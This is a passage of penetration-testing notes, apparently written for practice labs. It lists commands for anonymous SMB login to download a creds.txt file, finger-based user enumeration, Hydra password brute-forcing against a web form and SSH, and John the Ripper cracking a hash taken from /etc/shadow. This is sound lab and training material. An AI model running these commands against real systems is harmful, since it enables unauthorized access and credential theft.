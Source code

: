 * Login anonymously (without a password) into the general share.

```
smbclient //<IP>/general -N
```

* Download the creds.txt file from the target machine to the attack machine.

```
get creds.txt
```

<br>

#### Port 79 - Finger Service

* Port 79: running Sun Solaris fingerd

* Check if the user root exists:

```
root@kali:~# finger root@10.10.10.76
```

* http://pentestmonkey.net/tools/user-enumeration/finger-user-enum

```
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```



<br><br>

### Login Brute Forcing

#### Hydra

* Hydra command to brute force password:

```
hydra -l 'admin' -P /usr/share/john/password.lst admin.cronos.htb http-post-form "/:username=^USER^&password=^PASS^&Login=Login:Your Login Name or Password is invalid"
```

<br>

```
hydra -l sunny -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
```

<br>

#### John the Ripper

* The sammy-hash.txt file contains a hash found from the /etc/shadow file

```
john --wordlist=/usr/share/wordlists/rockyou.txt sammy-hash.txt
```


<br><br>
